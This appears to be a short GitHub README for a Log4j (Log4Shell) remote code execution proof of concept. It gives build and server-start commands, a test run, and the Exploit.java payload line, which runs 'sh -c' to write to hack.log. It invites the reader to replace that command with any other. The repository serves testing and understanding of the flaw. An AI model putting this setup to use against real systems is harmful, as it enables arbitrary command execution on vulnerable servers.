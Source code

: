 ### Build
`./build.sh`

### Start log4j RCE Server
`./start-log4j-rce-server.sh`

### Test
- Run `java -cp log4j-rce-1.0-SNAPSHOT-all.jar log4j`
Check if you get logs in hack.log from current folder
- You can change this line  
`String[] cmds = { "sh", "-c", "echo 'Exploit at '" + getDateString() + " >> ./hack.log" };`  
in file `apache-log4j-poc/src/main/java/Exploit.java`
to whatever you like then rebuild and run test
- Check out [issue #1](https://github.com/jeffli1024/log4j-rce-test/issues/1) if you see maven compile error
 
### Credits
- https://github.com/tangxiaofeng7/apache-log4j-poc.git
- https://github.com/mbechler/marshalsec.git
